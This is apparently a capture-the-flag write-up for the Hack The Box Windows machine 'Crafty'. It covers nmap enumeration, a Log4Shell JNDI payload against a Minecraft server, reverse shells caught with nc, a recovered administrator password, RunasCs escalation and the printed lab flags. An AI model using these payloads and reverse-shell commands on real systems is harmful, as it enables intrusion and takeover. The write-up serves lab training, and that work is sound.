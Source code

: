 ```yaml
---
layout: post
title: "HTB Windows Easy: Crafty"
description: "Crafty is an Easy rated Windows machine on HTB."
categories: [CTF,HTB]
tags: [Windows,Easy]
author: g
---
```


## Nmap Scan
```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -p 80 10.10.11.249           
Starting Nmap 7.94SVN ( <https://nmap.org> ) at 2024-02-10 14:07 EST
Nmap scan report for crafty.htb (10.10.11.249)
Host is up (0.032s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
|_http-title: Crafty - Official Website
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 17.71 seconds

# 2nd nmap
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -p 25565 crafty.htb          
Starting Nmap 7.94SVN ( <https://nmap.org> ) at 2024-02-10 14:19 EST
Nmap scan report for crafty.htb (10.10.11.249)
Host is up (0.030s latency).

PORT      STATE SERVICE   VERSION
25565/tcp open  minecraft Minecraft 1.16.5 (Protocol: 127, Message: Crafty Server, Users: 1/100)

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 13.38 seconds
```


## Enumerate HTTP (Port 80)
Add domain to hosts file
```bash
┌──(kali㉿kali)-[~]
└─$ tail -n 1 /etc/hosts    
10.10.11.249 crafty.htb
```

Landing page.
![Pasted image 20240714202112.png](/images/Pasted image 20240714202112.png){: .normal }


We find a subdomain on the landing page (redirects to crafty.htb).
```bash
┌──(kali㉿kali)-[~]
└─$ tail -n 1 /etc/hosts    
10.10.11.249 crafty.htb play.crafty.htb
```


## Enumerate MC (Port 25565)
Since we know that version 1.16.5 of minecraft is running we know that it is vulnerable to log4j. In order to exploit it we can use the following [log4j PoC](https://github.com/kozmer/log4j-shell-poc).
```bash
# Install
git clone <https://github.com/kozmer/log4j-shell-poc.git>
cd log4j-shell-poc
pip3 install -r requirements.txt

# Modify payload to match windows
String cmd="cmd.exe"; # line 26
```

Next up we need to download [java 8u20](https://www.oracle.com/be/java/technologies/javase/javase8-archive-downloads.html) and make sure the extracted tar file is in the same folder as the Python PoC.
```bash
tar -xvf jdk-8u202-linux-x64.tar.gz
mv jdk1.8.0_202 jdk1.8.0_20
```

Execute the PoC and start a nc listener.
```bash
┌──(kali㉿kali)-[~/log4j-shell-poc]
└─$ python3 poc.py --userip 10.10.14.75 --webport 8000 --lport 9001

[!] CVE: CVE-2021-44228                                                                                                                
[!] Github repo: <https://github.com/kozmer/log4j-shell-poc>                                

Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[+] Exploit java class created success
[+] Setting up LDAP server
[+] Send me: ${jndi:ldap://10.10.14.75:1389/a}
[+] Starting Webserver on port 8000 <http://0.0.0.0:8000>
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Listening on 0.0.0.0:1389

# nc listener
┌──(kali㉿kali)-[~/log4j-shell-poc]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
```

We can use tlauncher to access the minecraft server (make sure to use 1.16.5). In order to gain shell access we will execute the following command (connect to play.crafty.htb).
![Pasted image 20240714202104.png](/images/Pasted image 20240714202104.png){: .normal }


Shell:
```bash
┌──(kali㉿kali)-[~/log4j-shell-poc]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.14.75] from (UNKNOWN) [10.129.227.229] 49681
Microsoft Windows [Version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. All rights reserved.

c:\\users\\svc_minecraft\\server>whoami
crafty\\svc_minecraft
```

User flag: `1c4d82f8ffdca7ae7bb70a3dece740fa`
```bash
c:\\Users\\svc_minecraft\\Desktop>type user.txt
1c4d82f8ffdca7ae7bb70a3dece740fa
```


## Privilege Escalation
Use jd-gui to decompile the plugin file located in the plugins dir (password: `s67u84zKq8IXw`).
![Pasted image 20240714202057.png](/images/Pasted image 20240714202057.png){: .normal }


Now we can use [runascs](https://github.com/antonioCoco/RunasCs/releases/tag/v1.5) to execute a reverse shell as the Administrator using the password we found in the playercounter class.
```bash
PS C:\\Users\\svc_minecraft> .\\RunasCs.exe Administrator s67u84zKq8IXw cmd.exe -r 10.10.14.75:9000
[+] Running in session 1 with process function CreateProcessWithLogonW()
[+] Using Station\\Desktop: WinSta0\\Default
[+] Async process 'C:\\Windows\\system32\\cmd.exe' with pid 4416 created in background.
```

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9000 
listening on [any] 9000 ...
connect to [10.10.14.75] from (UNKNOWN) [10.129.227.229] 49687
Microsoft Windows [Version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\\Windows\\system32>whoami
crafty\\administrator
```

Root flag: `ea1e2c6c894b33bc575fc62814d8adfc`
```bash
C:\\Users\\Administrator\\Desktop>type root.txt
ea1e2c6c894b33bc575fc62814d8adfc
```